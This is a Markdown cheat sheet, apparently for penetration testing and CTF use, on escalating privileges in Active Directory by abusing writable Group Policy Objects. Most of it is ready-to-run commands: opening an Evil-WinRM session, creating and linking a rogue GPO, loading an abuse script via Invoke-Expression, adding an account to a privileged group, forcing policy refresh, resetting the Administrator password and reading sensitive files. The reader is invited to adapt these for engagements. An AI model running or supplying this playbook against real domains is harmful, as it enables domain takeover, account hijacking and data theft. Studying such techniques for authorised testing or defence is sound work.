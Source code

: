 # GPO Abuse for Privilege Escalation – General Reference

This document provides an overview of abusing writable Group Policy Objects (GPOs) to escalate privileges in an Active Directory environment. 
It also includes a cheat sheet of generalized commands that you can adapt for your engagements.

---

## 1. Overview

GPO abuse is a technique used during penetration testing (or CTF challenges) to leverage GPO editing permissions to inject malicious configurations. By modifying a GPO, an attacker can:
- Add their account to high-privilege groups (e.g., Domain Admins).
- Execute arbitrary commands on Domain Controllers or other systems.
- Change system settings via Group Policy Preferences.

**Key Points:**
- **Writable GPO:** The attacker must have permissions to create or edit GPOs.
- **GPO Linking:** The GPO must be linked to an Organizational Unit (OU) or the domain root so its settings are applied.
- **Propagation Delay:** Changes propagate on the next GPO refresh (typically 5–10 minutes) or on reboot/logon.
- **Execution Context:** GPO Preferences run under system or elevated contexts, which is why the abuse can be so powerful.

---

## 2. Attack Workflow

1. **Establish a Connection:**  
   Use a remote management tool (e.g., Evil-WinRM) to connect as a user with GPO editing privileges.

2. **Create a New GPO:**  
   Create a fresh GPO (e.g., "PrivEsc_GPO") to serve as a clean target for abuse.

3. **Link the GPO:**  
   Link the newly created GPO to the domain or target OU so that its settings are applied.

4. **Load Abuse Functions:**  
   Import an abuse script (e.g., a PowerShell script such as `PowerGPOAbuse.ps1`) that contains functions for modifying GPO settings.

5. **Modify the GPO to Escalate Privileges:**  
   Use a function from the abuse script to add your account to a privileged group (e.g., Domain Admins).  
   *Example (generalized):*
   ```powershell
   Add-GPOGroupMember -GPOIdentity "PrivEsc_GPO" -DomainGroup "PrivilegedGroup" -Member "YourAccount"
(Adjust the parameters based on your script’s help output.)

Force Policy Update:
Force a GPO refresh to propagate the changes immediately:

```
gpupdate /force
```

If forcing fails, wait 5–10 minutes for automatic propagation.

Verify Escalation:
Confirm that your account has been added to the privileged group:

```
whoami /groups | findstr /i "PrivilegedGroup"
```


Post-Exploitation:
Once you have escalated privileges, perform post-exploitation actions (e.g., resetting the Administrator password, accessing sensitive files).

3. Command Cheat Sheet
A. Establish a Remote Session
bash
Copy
# Example using Evil-WinRM (replace placeholders as needed)
evil-winrm -i <Target_IP_or_FQDN> -u <GPO_Editor_User> -r <REALM>
B. Create and Link a New GPO
powershell
Copy
New-GPO -Name 'PrivEsc_GPO' | New-GPLink -Target 'DC=<Your_Domain>,DC=<TLD>'
Verify:

powershell
Copy
Get-GPO -Name 'PrivEsc_GPO'
C. Import the Abuse Script
If the abuse script is stored locally:

powershell
Copy
Invoke-Expression (Get-Content -Path .\PowerGPOAbuse.ps1 -Raw)
Confirm functions are loaded:

powershell
Copy
Get-Command -Name Add-GPOGroupMember
D. Escalate Privileges via GPO Modification
Using the abuse function (adjust parameters as necessary):

powershell
Copy
Add-GPOGroupMember -GPOIdentity "PrivEsc_GPO" -DomainGroup "PrivilegedGroup" -Member "YourAccount"
Alternatively, some versions may use different parameters. Always check with:

powershell
Copy
Get-Help Add-GPOGroupMember -Detailed
E. Force a GPO Update
powershell
Copy
gpupdate /force
(Or wait 5–10 minutes for changes to propagate.)

F. Verify Privilege Escalation
powershell
Copy
whoami /groups | findstr /i "PrivilegedGroup"
G. Post-Exploitation: Reset Administrator Password and Retrieve Sensitive Data
powershell
Copy
net user Administrator <New_Admin_Password>
Then, open a session as Administrator and retrieve sensitive files (e.g., root flag):

powershell
Copy
type C:\Path\To\SensitiveFile.txt
If access is denied, consider copying the file to a user-writable location.

4. How the Attack Works
GPO Modification:
With GPO editing rights, an attacker creates or modifies a GPO to include a malicious setting—such as adding a user to a high-privilege group.

Propagation:
The modified GPO is linked to the domain or OU, so its settings are applied to target systems (e.g., Domain Controllers) on the next policy refresh or reboot.

Execution of Malicious Payload:
When the GPO refreshes, the malicious payload executes with elevated privileges, modifying system settings (e.g., group membership).

Privilege Escalation Outcome:
The attacker's account is elevated, granting them broad access and control over the domain, which can then be used for further exploitation.

